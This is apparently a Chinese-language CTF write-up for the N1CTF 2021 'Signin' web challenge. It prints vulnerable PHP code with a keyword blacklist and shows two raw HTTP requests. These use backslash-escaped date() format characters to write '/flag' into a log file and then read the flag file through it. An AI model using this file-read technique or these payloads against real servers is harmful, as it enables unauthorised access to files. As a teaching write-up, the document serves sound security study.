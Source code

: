 # 前言

好难呜呜

# Signin

代码审计看一下：

```php
<?php
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die('111');
    }
}
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}

```

告诉了flag在`/flag`，其实就是想办法这里：

```php
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}
```

让`$check`是`/flag`。因此想办法写进log里面的内容是`/flag`。

内容是这样来的：

```php
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
```

关于`date()`，官方手册这句话：

![image-20211121140530673](2021-N1CTF-Web-Writeup.assets/image-20211121140530673.png)

所以不是format字符的将会原样显示。但是`/flag`里面，`lag`都是format字符，就没法原样显示。

再往下看看：

![image-20211121140629240](2021-N1CTF-Web-Writeup.assets/image-20211121140629240.png)

相当于转义了，所以就变得很简单了：

```http
POST /?time=1 HTTP/1.1
Host: 43.155.64.70
Content-Length: 8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://43.155.64.70
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://43.155.64.70/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

/f\l\a\g
```

```http
POST /?time=1 HTTP/1.1
Host: 43.155.64.70
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://43.155.64.70
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://43.155.64.70/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

path=/var/www/tmp/1637474547599336571.txt
```

